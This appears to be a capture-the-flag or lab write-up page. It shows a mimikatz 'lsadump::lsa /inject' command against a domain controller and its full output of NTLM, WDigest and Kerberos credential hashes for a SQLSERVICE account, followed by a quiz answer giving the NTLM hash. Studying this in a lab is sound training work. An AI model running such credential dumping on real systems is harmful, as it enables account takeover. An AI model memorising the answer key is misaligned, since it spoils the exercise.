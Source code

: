 ```sqlservice
mimikatz # lsadump::lsa /inject /name:SQLSERVICE
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860

RID  : 00000455 (1109)
User : SQLSERVICE

 * Primary
    NTLM : cd40c9ed96265531b21fc5b1dafcfb0a
    LM   :
  Hash NTLM: cd40c9ed96265531b21fc5b1dafcfb0a
    ntlm- 0: cd40c9ed96265531b21fc5b1dafcfb0a
    lm  - 0: 7bb53f77cde2f49c17190f7a071bd3a0

 * WDigest
    01  ba42b3f2ef362e231faca14b6dea61ef
    02  00a0374f4ac4bce4adda196e458dd8b8
    03  f39d8d3e34a4e2eac8f6d4b62fe52d06
    04  ba42b3f2ef362e231faca14b6dea61ef
    05  98c65218e4b7b8166943191cd8c35c23
    06  6eccb56cda1444e3909322305ed04b37
    07  25b7998ce2e7b826a576a43f89702921
    08  8609a1da5628a4016d32f9eb73314fa0
    09  277f84c6c59728fb963a6ee1a3b27f0d
    10  63a9f69e8b36c3e0612ec8784b9c7599
    11  47cb5c436807396994f1b9ccc8d2f8e1
    12  46f2c402d8731ed6dca07f5dbc71a604
    13  2990e284070a014e54c749a6f96f9be7
    14  c059f85b7f01744dc0a2a013978a965f
    15  3600c835f3e81858a77e74370e047e29
    16  bd9c013f8a3f743f8a5b553e8a275a88
    17  c1d94e24d26fdaad4d6db039058c292e
    18  1a433c0634b50c567bac222be4eac871
    19  78d7a7573e4af2b8649b0280cd75636d
    20  136ddfa7840610480a76777f3be007e0
    21  7a4a266a64910bb3e5651994ba6d7fb4
    22  a75ec46a7a473e90da499c599bc3d3cb
    23  8d3db50354c0744094334562adf74c2a
    24  7d07406132d671f73a139ff89da5d72e
    25  dd1e02d5c5b8ae969d903a0bc63d9191
    26  27da7fc766901eac79eba1a970ceb7da
    27  09333600bcc68ee149f449321a5efb27
    28  1c550f8b3af2eb4efda5c34aa8a1c549
    29  3cd9326a300d2261451d1504832cb062

 * Kerberos
    Default Salt : CONTROLLER.LOCALSQLService
    Credentials
      des_cbc_md5       : 5d5dae0dc10e7aec

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALSQLService
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : a3a6dbd4d6fa895b600c28bfdaf6b52d59d46a6eb1f455bc08a19b7e8cdab76d
      aes128_hmac       (4096) : 629b46af543142f77cabcf14afb1caea
      des_cbc_md5       (4096) : 5d5dae0dc10e7aec

 * NTLM-Strong-NTOWF
    Random Value : 7e9547ab69f52e42450903ebbe6ad6ec
```
What is the SQLService NTLM Hash? *cd40c9ed96265531b21fc5b1dafcfb0a*
